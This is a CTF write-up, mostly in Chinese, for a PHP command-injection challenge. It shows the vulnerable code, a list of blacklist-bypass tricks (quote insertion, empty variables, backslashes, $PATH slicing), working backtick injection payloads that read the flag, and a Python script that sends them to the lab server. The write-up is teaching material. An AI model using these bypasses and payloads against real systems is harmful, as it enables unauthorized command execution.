 # 2023 NCU ADL CTF Writeup --- `web`

<div align="right">
    <p>
        <a href="https://1chooo.github.io/ctf-writeup/"><b>👨🏻‍💻 Home</b></a> |
        <a href="https://1chooo.github.io/ctf-writeup/pwn/"><b><code>🌤️ pwn</code></b></a> |
        <a href="https://1chooo.github.io/ctf-writeup/web/"><b><code>⌨️ web</code></b></a> |
        <a href="https://github.com/1chooo/ctf-writeup"><b>⌚️ GitHub</b></a>
    </p>
</div>

## 05. Command Injection

```php
<?php if (isset($_POST['json'])) : ?>
    <section class="has-text-left">
        <p>Result:</p>
        <pre><?php
        $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
        $is_input_safe = true;
        foreach ($blacklist as $bad_word)
            if (strstr($_POST['json'], $bad_word) !== false) $is_input_safe = false;

        if ($is_input_safe)
            system("echo '" . $_POST['json'] . "'| jq .bocchi");
        else
            echo '<img src="nanana.gif"/>';
        ?></pre>
    </section>
<?php endif; ?>
```

這段 PHP 代碼的主要功能是處理來自表單 POST 請求的資料，並對資料進行安全性檢查和處理。

1. **條件檢查：**  
   這段代碼開始於 `<?php if (isset($_POST['json'])) : ?>`，它首先檢查是否有名為 'json' 的資料以 POST 方式提交到這個網頁。

2. **顯示結果區域：**  
   如果有 'json' 資料提交，就會進入下一個部分，其中包含了以下內容：

   - **設置黑名單：**  
     ```php
     $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
     ```
     這行程式碼定義了一個 `$blacklist` 陣列，其中包含了一些可能會被用來試圖操縱系統的特殊字符或字串，例如命令注入字符 (`|`, `&`, `;` 等) 和特定字詞 (`cat`, `flag` 等)。

   - **安全性檢查：**  
     ```php
     $is_input_safe = true;
     foreach ($blacklist as $bad_word) {
         if (strstr($_POST['json'], $bad_word) !== false) {
             $is_input_safe = false;
         }
     }
     ```
     使用 `foreach` 迴圈遍歷黑名單，檢查提交的 'json' 資料是否包含黑名單中的任何字符或字串。如果發現任何不安全的字詞，則會將 `$is_input_safe` 設置為 `false`。

   - **安全性處理和輸出：**
     ```php
     if ($is_input_safe) {
         system("echo '" . $_POST['json'] . "'| jq .bocchi");
     } else {
         echo '<img src="nanana.gif"/>';
     }
     ```
     如果提交的 'json' 資料通過安全性檢查 (`$is_input_safe` 是 `true`)，則會執行一個系統命令使用 `system()`。這個命令使用 'jq' 工具（一個命令行下的 JSON 處理器）從提交的 JSON 資料中提取 'bocchi' 鍵的值，並在 `<pre>` 標籤中顯示它。

   - **處理不安全的輸入：**
     如果輸入被判定為不安全（包含黑名單中的內容），則會顯示一張圖片 (`nanana.gif`)，以預防性方式取代執行 'jq' 命令，這樣做可以防止處理不安全的輸入可能帶來的安全風險。

## Keyword繞過 [^1]

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜線
    - `c\at fl\ag`

因為從題目中我們可以看到，`cat` 和 `flag` 都在黑名單中，因此如果我們直接注入 `{"bocchi":"'`cat flag`'"}` 會得不到我們要的內容，會被原始碼裡的程式邏輯給擋掉，因此我們先嘗試了 `{"tenshi": "Ijichi Nijika", %%"bocchi"%%: "Goto Hitor-"}` 發現不會進到 else 但是也無法成功注入，後來我們找到了 Keyword 繞過的方法，在 `cat` 以及 `flag` 之中添加一些可以繞過的字串，也就是說還是會組成 `cat flag` 但是中間加上的字元會被繞過，因此我們最後注入的 payload 為：

1. `{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}`
2. `{"bocchi":"'`tac f[l]ag`'"}`
3. `{"bocchi":"'`c""at fl""ag`'"}`
4. `{"bocchi":"'`c\at fl\ag"}` (Not Successful)

我們也試過把 `cat` 給相反過來，並且在 `flag` 使用 keyword 繞過，也是有成功拿到 flag，注入的 payload 為：
1. `{"bocchi":"'`tac f[l]ag`'"}`

並且寫了一個 Python Script 來做注入，最後成功拿到 flag。

```python
import requests
from bs4 import BeautifulSoup

def send_json_to_form(json_data):
    url = 'http://140.115.59.7:12001/'

    # Set the data to be sent
    data = {
        'json': json_data
    }

    try:
        response = requests.post(url, data=data)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('pre').text.strip()
            print("Content within <pre> tags:")
            print(tag_content)
        else:
            print("Error occurred, unable to send JSON data to the form.")
    except requests.RequestException as e:
        print("An exception occurred:", e)

# JSON data to send

json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`c""at fl""ag`'"}'''

# Call the function to send JSON data to the form
send_json_to_form(json_to_send)
```

## CONTACT INFO.

> AWS Educate Cloud Ambassador, Technical Support 
> <br>
> **Hugo ChunHo Lin**
> 
> <aside>
>   📩 E-mail: <a href="mailto:hugo970217@gmail.com">hugo970217@gmail.com</a>
> <br>
>   🧳 Linkedin: <a href="https://www.linkedin.com/in/1chooo/">Hugo ChunHo Lin</a>
> <br>
>   👨🏻‍💻 GitHub: <a href="https://github.com/1chooo">1chooo</a>
>    
> </aside>

## License
Released under [MIT](https://1chooo.github.io/my-uni-courses/LICENSE) by [Hugo ChunHo Lin](https://github.com/1chooo).

This software can be modified and reused without restriction.
The original license must be included with any copies of this software.
If a significant portion of the source code is used, please provide a link back to this repository.

[^1]: [Command Injection#keyword 繞過](https://github.com/w181496/Web-CTF-Cheatsheet?tab=readme-ov-file#command-injection)


<div align="center">
    <p>
        <a href="https://github.com/1chooo" target="_blank"><b>👨🏻 GitHub</b></a> |
        <a href="https://1chooo-github-io-1chooo.vercel.app/" target="_blank"><b>👨🏻‍💻 Portfolio</b></a> |
        <a href="https://1chooo.github.io/1chooo-blog/" target="_blank"><b>📓 Blog</b></a> |
        <a href="https://1chooo-github-io-1chooo.vercel.app/resume" target="_blank"><b>🧳 Resume</b></a> |
        <a href="https://medium.com/@1chooo" target="_blank"><b>📠 Medium</b></a> |
        <a href="https://www.youtube.com/channel/UCpBU1rXOfdTtxX939f_P_dA" target="_blank"><b>🎥 YouTube</b></a>
    </p>
    <div>
        <b>©2023-2024  Hugo H. Lin</b>
    </div>
</div>